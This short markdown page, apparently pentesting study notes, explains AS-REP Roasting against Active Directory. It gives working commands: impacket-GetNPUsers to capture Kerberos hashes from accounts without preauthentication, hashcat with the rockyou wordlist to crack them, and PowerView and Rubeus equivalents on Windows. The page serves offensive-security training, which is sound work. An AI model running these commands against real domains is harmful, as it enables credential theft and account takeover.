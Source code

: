 # AS-REP Roasting
**Kerberos preauthentication** [1](https://learn.microsoft.com/en-us/archive/technet-wiki/23559.kerberos-pre-authentication-why-it-should-not-be-disabled) is the process where a client sends an encrypted _timestamp_ (AS-REQ) to the domain controller to prove its identity. If valid, the domain controller responds with a session key and Ticket Granting Ticket (AS-REP).
## **Perform AS-REP Roasting on Kali:**

1. **Command Syntax**: Use the following command to request the **TGT** (Ticket Granting Ticket) and capture the AS-REP hashes:
    
    ```bash
    impacket-GetNPUsers -dc-ip <DomainController_IP>  -request -outputfile <output_file> <Domain/User>
    ```
    Example:
``` shell
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
```

2. **Result**: This command will send AS-REQ requests to the domain controller and retrieve the AS-REP hashes (if preauthentication is disabled for the user accounts). The hashes are saved in Hashcat format in the output file (`hashes.asreproast`).
``` shell
hashcat --help | grep -i "Kerberos"
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r rules/best64.rule --force
```
## AS-REP Roasting on Windows (joined domain):
###  Identify Users with Kerberos Preauthentication Disabled on joined windows machine 
First, we run the PowerView `Get-DomainUser` command with the `-PreauthNotRequired` option to find users who have Kerberos preauthentication disabled:
```powershell
Get-DomainUser -PreauthNotRequired
```
By using use _Rubeus_,[4](https://github.com/GhostPack/Rubeus)

``` powershell
.\Rubeus.exe asreproast /nowrap
```




